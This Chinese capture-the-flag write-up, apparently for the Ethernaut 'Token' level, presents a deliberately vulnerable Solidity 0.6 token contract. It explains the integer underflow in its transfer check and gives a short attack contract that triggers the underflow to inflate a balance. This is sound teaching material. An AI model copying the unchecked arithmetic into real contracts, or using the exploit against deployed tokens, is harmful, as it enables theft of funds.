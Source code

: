 # 5. Token
### 原题
```
这一关的目标是攻破下面这个基础 token 合约
你最开始有20个 token, 
如果你通过某种方法可以增加你手中的 token 数量,
你就可以通过这一关,当然越多越好。
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
### 分析
这个合约是个简化的代币合约。\
看transfer方法，里面的计算逻辑是没有问题的。\
不可能做到凭空通过正常转账方式来破解。\
如果是遇到加减法的时候，我们就要特别注意溢出的问题了，\
特别是在低版本中，EVM是没有溢出检测的。当前的编译器版本是基于0.6。\
这个版本是没有数据溢出检测的。这是个可以操作的漏洞。\
我们知道，如果是溢出，实际计算出来的数据可能就非常大(基础的二进制计算)。\
但是有同学会说，你看有个判断条件在，怎么突破？\
“require(balances[msg.sender] - _value >= 0)”，\
很简单，我们就在判断条件上开始做溢出的攻击。\
哪里有计算，我就攻击哪里！霸气！！\
我们来尝试让合约的计算产生溢出。\
废话不多说，直接写攻击代码。\
记得攻击的时候给自己的另一个钱包地址转账，不要犯傻自转账。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.30;

interface IToken {
    function transfer(address _to, uint256 _value) external  returns (bool);
    function balanceOf(address _owner) external  view returns (uint256 balance);
}

contract TokenAttack {
    IToken token;
    

    constructor(address _token) {
      token = IToken(_token);
    }

    function attack(address account, uint256 _value) external{
        token.transfer(account, _value);
    }

    function balanceOf(address _owner) external  view returns (uint256 balance) {
        balance = token.balanceOf(_owner);
    }
}
```

![alt text](image.png)